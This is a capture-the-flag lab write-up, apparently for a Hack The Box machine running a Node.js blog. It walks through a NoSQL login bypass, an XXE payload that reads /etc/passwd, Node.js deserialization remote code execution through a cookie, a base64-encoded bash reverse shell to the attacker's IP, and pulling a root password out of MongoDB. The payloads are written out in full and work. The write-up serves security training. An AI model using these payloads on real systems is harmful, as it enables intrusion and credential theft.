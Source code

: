 # Recon
```
$ sudo nmap -p- --min-rate 10000 10.10.11.139                       
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-26 03:03 EEST
Warning: 10.10.11.139 giving up on port because retransmission cap hit (10).
Stats: 0:00:57 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.99% done; ETC: 03:04 (0:00:00 remaining)
Nmap scan report for 10.10.11.139
Host is up (1.1s latency).
Not shown: 55207 closed tcp ports (reset), 10326 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 59.03 seconds
```
- we try to open the webpage with port 5000 and try tcp scan with version scan
```
└─$ sudo nmap -p22,5000 -sCV 10.10.11.139
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-26 03:21 EEST
Nmap scan report for 10.10.11.139
Host is up (0.100s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea8421a3224a7df9b525517983a4f5f2 (RSA)
|   256 b8399ef488beaa01732d10fb447f8461 (ECDSA)
|_  256 2221e9f485908745161f733641ee3b32 (ED25519)
5000/tcp open  http    Node.js (Express middleware)
|_http-title: Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.80 seconds

```
# Shell
- The “Login” button leads to /login, which is a login form:
- we launch burp and start observing the requests
- nmap identified the site is running NodeJS with Express. The response headers confirm that
- run feroxbuster against the site and no new
- Some basic SQL injections didn’t do anything, nor did a quick sqlmap run against the login form
-  we want Node to handle the input as a JSON object
-  in response header we has Content-Type: application/x-www-form-urlencoded we change it to application/json
-  we launch burp and start modifying the request
-  since its node its likely to run nosql so we try payloadsALlTheTHings repo for nosql
-  we send this payload **({"user": "admin", "password": {"$ne": "wrongpassword"}})** send it to the repeater and yes we got a cookie so we are logged in
-  we try to login by intercept in wrong pass request again by burp and put payload and change format to json forward the request and we are logged in
-  there is and upload button when i try to upload somethingits says **Invalid XML Example: Example DescriptionExample Markdown**
-  Looking at the response, it’s a bit clearer
-  The site is clearly accepting XML and parsing that into the form to display back to me
-  opportunity for an XML External Entity (XXE) injection
-  PayloadsAllTheThings has a lot of example payloads for XXE as well
-  grab the first one and try to read /etc/passwd. I can’t just submit it as is though
-  have to work from the template that the site is expecting
```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
        <title>0xdf's Post</title>
        <description>Read File</description>
        <markdown>&file;</markdown>
</post>
```
- This defines the entity &file; as the contents of /etc/passwd, and then references it in the markdown field. When I submit this, it works
-  found myself trying to crash the site. Errors in the XML just lead to the example payload.
-  Errors in the urls give simple messages like Cannot GET /a. One thing that did work was sending busted JSON to to /login
-  seems the source for the webapp is running in /opt/blog
-  find the source for the application at /opt/blog/server.js
-  server.js is a common name for a Node application
-  server.js is a common name for a Node application
-  The unserialize function is being called on c, which is likely the cookie. Looking at the cookie, it’s clearly URL encoded JSON
```
%7B%22user%22%3A%22admin%22%2C%22sign%22%3A%2223e112072945418601deb47d9a6c7de8%22%7D
```
- decoding to
```
{"user":"admin","sign":"23e112072945418601deb47d9a6c7de8"}
```
- all the non-letters/digits in the cookie are URL encoded
- there is a blog that explains the vulunerability
```
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/
```
- The source code makes it clear that this is checked before the user or sign fields, so I can just make this my cookie. I’ll start with
```
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 1 10.10.16.6', function(error, stdout, stderr){console.log(stdout)});}()"}
```
- and we url-encode it
- I’ll start tcpdump, and send this in repeater, which leads to ICMP packets
- The packets are received successfully, which means we can execute arbitrary code on the target machine
- Having confirmed code execution, we now update our payload to obtain a reverse shell
- simple Base64 encoded payload works in this case
```
echo 'bash -i >& /dev/tcp/10.10.16.6/443 0>&1' | base64
```
- modified it to work on the url
```
echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNi80NDMgIDA+JjEK|base64 -d|bash

```
- open netcat put the payload like this in the repeater and launch
```
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNi80NDMgIDA+JjEK|base64 -d|bash', function(error, stdout, stderr){console.log(stdout)});}()"}
```
- and we got a shell
- upgrade it using the script trick
```
1-script /dev/null -c bash
2- ^Z
3- stty raw -echo; fg
```
- successfully obtained a shell as admin
- we do not have access to our home directory under /home/admin
- since we own the directory we can change its permissions
```
1- chmod +x /home/admin
2- cat /home/admin/user.txt
```


# Privilege Escalation
- Enumerating the target system reveals MongoDB running on its default port
- access the service on port 27017
- show dbs
- use blog
- show collections
- find two collections, the latter of which, namely users is of primary interest as it might contain
credentials.
- db.users.find()
- we find root password
- now change to sudo su and find root flag on root folder


